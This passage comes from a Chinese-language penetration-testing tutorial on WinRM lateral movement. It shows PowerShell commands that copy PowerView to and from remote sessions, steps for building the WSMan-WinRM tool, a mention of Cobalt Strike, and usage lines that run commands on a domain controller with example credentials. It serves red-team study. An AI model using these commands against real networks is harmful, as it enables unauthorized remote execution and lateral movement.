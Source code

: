```
Copy-Item -Path C:\Temp\PowerView.ps1 -Destination C:\Temp\ -ToSession (Get-PSSession)

# 从远程会话下载文件
Copy-Item -Path C:\Users\Administrator\Desktop\test.txt -Destination C:\Temp\ -FromSession (Get-PSSession)
```

利用 WSManWinRM 进行横向移动
--------------------

bohops 大佬在博客中有写一篇文章《WS-Management COM: Another Approach for WinRM Lateral Movement》有介绍实现了 WSMan-WinRM 工具的过程，这个工具也是很不错。

在. NET C＃中构建 WSMan-WinRM 工具，创建新的. NET Framework（4）控制台应用程序项目后，通过在解决方案资源管理器中右键单击 “依赖项” 菜单并选择“添加 COM 引用”，接着选择图中的选项。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmf3SIvAFbnMicn4rn56malpj6K8AVvL4tdgcShbdORTQ2egXJu0aF43w/640?wx_fmt=png)

或者选择在通过在解决方案资源管理器中右键单击依赖项中选择添加项目引用。来添加依赖文件。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmFyibnt9kxv3MwPia7EIxevFqhZwwRRicsIOTAGOFBxtrice4tWEskWWz2A/640?wx_fmt=png)

在引用管理器中，选择浏览并从 C:WindowsSystem32 中 导入 WsmAuto.dll 文件：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmrwibvbFUicojc3QAuT9lv6UAMjNXrZ22ViadwwR1piaruyDLYRQ8txzcHQ/640?wx_fmt=png)

这样就可以构建到项目了。作者这里提供了 5 中不同的执行方式。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmKrzjqjj28oJUQGV7kFyMPicWMb5LPzP8laqQQ6rQBiaSM2Bh86GXpzRQ/640?wx_fmt=png)

当然可以在 cobaltstrike 加载 powershell 来进行 WSManWinRM 横向移动，WSManWinRM.ps1 用法如下。

```
Usage: Invoke-WSManWinRM -hostname <hostname> -command <command>
 Usage: Invoke-WSManWinRM -hostname <hostname> -command <command> -user <domain\user> -password <password>

 Example: import-module .\WSManWinRM.ps1
          Invoke-WSManWinRM -hostname dc.one.com -command calc.exe
 Example: import-module .\WSManWinRM.ps1
          Invoke-WSManWinRM -hostname dc.one.com -command calc.exe -user one\administrator -password q123456.
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmibaQq38mA8O1YpYn2eRDXDKP2GB1vntzwOtTpRlykc020UecOxEfvkQ/640?wx_fmt=png)

WSManWinRM.js

```
Usage: cscript.exe SharpWSManWinRM.js <hostname> <command>
 Usage: cscript.exe SharpWSManWinRM.js <hostname> <command> <domain\user> <password>

 Example: cscript.exe SharpWSManWinRM.js dc.one.com notepad.exe
 Example: cscript.exe SharpWSManWinRM.js dc.one.com "cmd /c notepad.exe" one\administrator q123456.
```

